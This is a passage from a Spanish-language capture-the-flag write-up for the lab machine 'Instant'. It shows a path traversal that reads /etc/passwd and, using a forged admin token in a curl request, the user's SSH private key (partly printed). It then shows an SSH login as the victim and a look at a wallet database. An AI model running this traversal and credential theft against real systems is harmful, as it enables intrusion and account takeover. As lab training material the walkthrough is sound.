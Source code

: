 ```
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash
_laurel:x:999:990::/var/log/laurel:/bin/false
```

Efectivamente se ha acontecido un **path traversal**. Para escalar esto a una consola interactiva vamos a leer su clave publica de ssh.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa" | jq -r '."/home/shirohige/logs/../.ssh/id_rsa"[]' | tr -s '\n' > id_rsa_shirohige

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEApbntlalmnZWcTVZ0skIN2+Ppqr4xjYgIrZyZzd9YtJGuv/w3GW8B
nwQ1vzh3BDyxhL3WLA3jPnkbB8j4luRrOfHNjK8lGefOMYtY/T5hE0VeHv73uEOA/BoeaH

...etc...

HwDs1CAcoWDnh7yhGK6lZM3950r1A/RPwt9FcvWfEoQqwvCV37L7YJJ7rDWlTa06qHMRMP
5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r
bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==
-----END OPENSSH PRIVATE KEY-----
```

Le damos los permisos adecuados.

```
chmod 600 id_rsa_shirohige
```

Y nos conectamos a la máquina víctima utilizando esta clave privada.

```
ssh shirohige@instant.htb -i id_rsa_shirohige

shirohige@instant:~$
```

Una vez dentro ya podemos leer la flag del usuario.

```
cd
cat user.txt
```

Investigando la capeta projects en el home del usuario shirohige encontramos una base de datos de sqlite.

```
cd projects/mywallet/Instant-Api/mywallet/instance/
ls

instant.db
```
